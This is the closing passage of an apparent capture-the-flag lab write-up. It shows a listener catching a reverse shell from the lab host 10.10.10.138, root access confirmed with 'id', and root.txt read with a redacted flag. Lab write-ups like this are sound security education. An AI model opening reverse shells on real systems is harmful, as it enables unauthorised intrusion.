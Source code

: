 Again on my machine (listener):
{% highlight bash %}
connect to [10.10.XXX.XXX] from (UNKNOWN) [10.10.10.138] 59722
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

We are in!

{% highlight bash %}
# cd /root
# ls
bin
root.txt
# cat root.txt
eebaXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !

